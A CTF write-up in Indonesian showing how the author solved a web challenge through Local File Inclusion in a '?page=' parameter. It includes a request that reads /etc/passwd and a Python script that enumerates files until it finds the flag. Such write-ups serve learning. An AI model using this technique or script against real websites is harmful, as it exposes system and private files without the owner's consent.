 Deskripsi soal:
<pre>
So I hope you're well insured, because the nineties have sent us their
best thing ever: bright colors and Comic Sans MS. Please end it before
everyone dies due to internal bleedings.

1.ctf.link:1123
</pre>
Pada soal ini peserta diberikan soal web yang beralamat di http://1.ctf.link:1123, melihat beberapa konten yang disediakan kami berpikir celah yang dapat ditemukan pada web tersebut adalah LFI ( Local File Inclusion ) itu diketahui dari salah satu halaman about maupun guestbook.
Soal ini terbilang cukup mudah karena celah sudah kita ketahui sebelumnya, untuk mengecek kebenaran akan celah tersebut dapat kita cek bagian /etc/passwd dengan memanfaatkan parameter "?page=" yang akan meload tiap file yang akan kita cari ( http://1.ctf.link:1123/index.php?page=/etc/passwd ). Tapi tujuan kita disini adalah mencari file flagnya, maka dari itu untuk mencari file flag tersebut kami mencoba melakukan bruteforce dan mengecek pattern dari flag dengan format "hxp{....}". 
Kami menggunakan python untuk melakukan proses bruteforcing ini, berikut codenya: 

```python
import urllib2
import re

url = "http://1.ctf.link:1123/index.php?page=%s"  

maybe_the_flag_file = [
	"flag",
	"fl4g",
	"fl49",
	"/flag",
	"/fl4g",
	"/fl4g",
	"flag.txt",
	"fl4g.txt",
	"fl49.txt",
	"/bin/flag",
	"/bin/flag",
	"/bin/fl4g",
	"/bin/fl49"
] # pattern

def find_flag():
	flag = ''
	for x in range(0, len(maybe_the_flag_file)):
		url_find = url % maybe_the_flag_file[x]
		urlop = urllib2.urlopen(url_find)
		read_url = urlop.read()
		print "Mencoba -> %s" % (url_find)
		#print read_url
		if "hxp{" in read_url:
			print "Nice! ketemu di %s !" % (url_find)
			rgx = re.findall(r'hxp{(.*)}', read_url)
			flag = ''.join(str(rgx).split())
			break
	print "Flag: %s" % flag

def main():
	find_flag()

if __name__ == '__main__':
	main()
```

<h3>Output</h3>
<pre>
Mencoba -> http://1.ctf.link:1123/index.php?page=flag
Mencoba -> http://1.ctf.link:1123/index.php?page=fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=fl49
Mencoba -> http://1.ctf.link:1123/index.php?page=/flag
Mencoba -> http://1.ctf.link:1123/index.php?page=/fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=/fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=flag.txt
Nice! ketemu di http://1.ctf.link:1123/index.php?page=flag.txt !
Flag: ['the_nineties_called_they_want_their_design_back']
</pre>

Ditemukan flagnya, kemudian disusun sesuai dengan format flag dari CTF ini dengan menambah "hxp{...}". <br />
Flag: <b>hxp{the_nineties_called_they_want_their_design_back}</b>
